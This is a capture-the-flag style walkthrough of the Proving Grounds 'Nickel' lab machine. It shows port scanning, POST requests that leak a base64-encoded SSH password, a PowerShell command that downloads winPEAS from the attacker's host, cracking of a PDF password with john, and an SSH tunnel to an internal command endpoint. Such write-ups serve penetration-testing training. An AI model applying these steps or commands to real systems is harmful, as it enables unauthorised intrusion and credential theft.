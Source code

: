 ```yaml
---
title: Proving-Ground-Nickel-Walkthrough
date: 2022-06-18 19:09:53
tags: ProvingGround
cover: /img/nickle.jpg
---
```


# Nickel

## Foothold

### Enumeration

```
Nmap scan report for 192.168.121.99
Host is up (0.019s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-18T20:30:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2022-06-17T20:16:10
|_Not valid after:  2022-12-17T20:16:10
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-06-18T20:29:03+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

Nmap shows 8089 and 33333 are http page.

Looking through 8089 page, it seems to send request to 33333 page.

If we visit 33333 page directly, it's `Invalid Token`

If we try to query the resource that we find in 8089,
for example, `http://192.168.121.99:33333/list-current-deployments`
then we get 

```html
<p>Cannot "GET" /list-current-deployments</P>
```

emmm.. Cannot "GET".

Therefore we send the payload to burpsuite and try to post it:

```
POST /list-current-deployments HTTP/1.1
Host: 192.168.121.99:33333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

test
```

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-14-13.png)

We get not implemented.

I tried to wfuzz it and see if I can replace the data field of post so I can get more information.

```bash
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -d "FUZZ" --filter "chars!=22" http://192.168.121.99:33333/list-current-deployments
```

It didn't work.

### Break Through

But if we request another resource, `/list-running-procs`, it works.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-17-09.png)

We can see here we have a password passed through command line.

It seems to be base64 encoded. Decode it, and we get: `NowiseSloopTheory139`

We can login through ssh using the credential we found: `ariah:NowiseSloopTheory139`

Finally, we can find local.txt on the ariah's Desktop.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-17-19-22.png)

## Privilege Escalation

Upload winpeas using:

```ps1
(New-Object Net.WebClient).DownloadFile("http://192.168.49.121/winPEASx64.exe","C:\Users\ariah\Downloads\w.exe")
```

We find a pdf file in the `C:/ftp` folder, but it needs a password.

We crack it with john. First use `pdf2john` to generate hash, then use `john` and `rockyou` to crack it.

the password is `ariah4168`.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-08-01.png)

A `Temporary Command endpoint` exists on the server.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-02-55.png)

We also find that the 80 port is actually open. I suspect it's only accessable from internal network. That's why we didn't see it in the nmap scan.

Tunnel through using ssh:

```bash
ssh -N -L 0.0.0.0:80:192.168.121.99:80 ariah@192.168.121.99
```

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-04-16.png)

We can easily grab the proof.txt file.

![](./Proving-Ground-Nickel-Walkthrough/2022-06-18-18-06-10.png)

Time cost: 2 hours 30 minutes